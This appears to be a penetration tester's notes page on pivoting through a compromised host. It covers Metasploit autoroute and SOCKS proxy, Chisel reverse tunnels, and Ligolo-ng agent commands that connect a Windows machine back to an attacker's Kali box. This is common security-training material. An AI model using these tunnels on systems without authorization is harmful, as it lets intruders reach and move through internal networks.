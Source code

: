 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


<span style="font-size: 35px; color:red"><b>Port Forward</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Metasploit</b></span>
Once you get the meterpreter session running:
```shell
use multi/manage/autoroute
```
set CMD audoadd and SESSION.
and 
```shell
use auxiliary/server/socks_proxy
```
with SRVPORT 1080 and VERSION 5.

Then run commands with <span style="color:red">proxychains4</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Chisel</b></span>
On Kali:
```shell
chisel server --reverse -port 8080
```
On Windows:
```shell
chisel.exe client <kali_ip>:8080 R:1080:socks
```

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Ligolo-ng</b></span>
VPN-like port forwarding

Config
```shell
sudo ip tuntap add user scare mode tun ligolo && sudo ip link set ligolo up
```

On Linux:
```shell
./proxy -selfcert
```

On Windows, upload <span style="color:red">agent.exe</span> and <span style="color:red">wintun.dll</span> and run:
```shell
agent.exe -connect <kali_ip>:11601 -ignore-cert
```

Once you get the session running, from <span style="color:red">proxy</span> run <span style="color:red">session</span> and select the right session, then run <span style="color:red">ifconfig</span> to check the interface (I.E. if the interface is <span style="color:red">192.168.0.30/24</span>):
```shell
sudo ip route add 192.168.0.0/24 dev ligolo
```
Add other routes in case the internal network has other reachable subnets.
Then run <span style="color:red">start</span>. No need to use <span style="color:red">proxychains</span>.
